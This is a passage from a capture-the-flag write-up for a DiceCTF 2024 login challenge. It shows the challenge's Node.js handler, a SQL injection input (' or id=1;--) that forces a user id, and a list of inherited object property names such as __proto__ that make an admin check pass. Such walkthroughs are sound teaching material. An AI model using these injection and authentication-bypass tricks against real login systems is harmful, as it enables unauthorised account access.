 {% ccb lang:js gutter1:31-44 highlight:3 %}
    try {
        const id = db.prepare(query).get()?.id;
        if (!id) {
            return res.redirect("/?message=Incorrect username or password");
        }

        if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));
        }
        return res.redirect("/?message=This system is currently only available to admins...");
    }
    catch {
        return res.redirect("/?message=Nice try...");
    }
{% endccb %}

so we just have to specify the id to not be 0:
{% ccb %}
' or id=1;--
{% endccb %}

but then we need to pass two checks to get the flag:

{% ccb lang:js gutter1:31-44 highlight:7 %}
    try {
        const id = db.prepare(query).get()?.id;
        if (!id) {
            return res.redirect("/?message=Incorrect username or password");
        }

        if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));
        }
        return res.redirect("/?message=This system is currently only available to admins...");
    }
    catch {
        return res.redirect("/?message=Nice try...");
    }
{% endccb %}

we need `isAdmin[user]` to be <u>**truthy**</u> (i.e. when it is typecasted to boolean an if statement, it should be true). *Any* object/function will do the trick. So we have several options:
```js
isAdmin["__proto__"]
isAdmin["toString"]
isAdmin["__defineGetter__"]
isAdmin["__defineSetter__"]
isAdmin["__lookupGetter__"]
isAdmin["__lookupSetter__"]
isAdmin["constructor"]
isAdmin["hasOwnProperty"]
isAdmin["isPrototypeOf"]
isAdmin["propertyIsEnumerable"]
isAdmin["toLocaleString"]
isAdmin["valueOf"]
```
<img src="/static/DiceCTF2024/funnylogin.png" alt="" width="200"/>
